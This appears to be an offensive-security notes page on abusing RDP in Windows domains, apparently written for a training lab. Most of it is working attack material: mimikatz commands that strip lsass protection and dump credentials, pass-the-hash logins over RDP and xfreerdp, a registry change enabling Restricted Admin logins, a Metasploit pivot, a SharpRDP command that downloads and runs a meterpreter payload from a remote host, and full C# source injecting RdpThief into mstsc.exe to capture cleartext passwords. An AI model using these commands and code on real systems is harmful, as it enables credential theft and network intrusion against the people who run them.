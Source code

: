 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Abusing_RDP
---
```


<span style="font-size: 35px; color:red"><b>Abusing RDP</b></span>
&nbsp;
When an RDP connection is created, the NTLM hashes will reside in memory for the duration of the session.

When there's an active RDP session, you can dump the creds with _mimikatz_ like so:
```shell
privilege::debug
!+
!processprotect /process:lsass.exe /remove
sekurlsa::logonpasswords
```

To pass the NTLM hash of another user to get RDP session:
```shell
privilege::debug
sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
```
This should open a RDP prompt saying "Your Windows logon credentials will be used to connect"

If you see "Account restrictions are preventing...", probably Restricted Admin Mode is on, so run:
```
sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
```
That will open a powershell, then type these commands:
```powershell
Enter-PSSession -Computer appsrv01
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
Exit
```
The restricted admin mode setting is updated instantly and we can once again use it to gain access to the target.

<span style="font-size: 25px; color:white"><b>RDP//XfreeRDP</b></span>
You can do all this stuff also with xfreerdp:
```shell
xfreerdp /u:admin /pth:2892D26CDF84D7A70E2EB3B9F05C425E /v:192.168.120.6 /cert-ignore
```

---

<span style="font-size: 25px; color:white"><b>Reverse RDP Proxy</b></span>
Once already gotten the revshell on meterpreter, put it in background and run:
```shell
use multi/manage/autoroute
set session 1
exploit
```
and then
```shell
use auxiliary/server/socks4a
set srvhost 127.0.0.1
exploit -j
```
The autoroute module creates a reverse tunnel and allows us to direct network traffic into the appropriate subnet.

<span style="font-size: 25px; color:white"><b>RDP as a console</b></span>

RDP based on mstsc.exe which is based on mstscax.dll (which perform authentication). sharpRDP allows the execution of code through the SendKeys function.

To issue single commands through RDP without an actual RDP session open:
```shell
sharprdp.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/met.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=corp1\dave password=lab
```

---
<span style="font-size: 25px; color:white"><b>Get cleartext credentials with an open RDP Session</b></span>

Application similar to a keylogger for RDP
```cs
using System;
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading;

namespace Inject
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

		static void Main(string[] args)
		{
		  String dllName = "C:\\Tools\\RdpThief.dll";
		  while(true)
		  {
		    Process[] mstscProc = Process.GetProcessesByName("mstsc");
		    if(mstscProc.Length > 0)
		    {
		      for(int i = 0; i < mstscProc.Length; i++)
		      {
		        int pid = mstscProc[i].Id;

		        IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
		        IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
		        IntPtr outSize;
		        Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
		        IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
		        IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
		      }
		    }
                   
		    Thread.Sleep(1000);
		    }
		}
	}
}
```
Compile it as  <span style="color:red">exploit.exe</span> and run:
```shell
mstsc.exe
exploit.exe
type C:\Users\dave\AppData\Local\Temp\6\data.bin
```
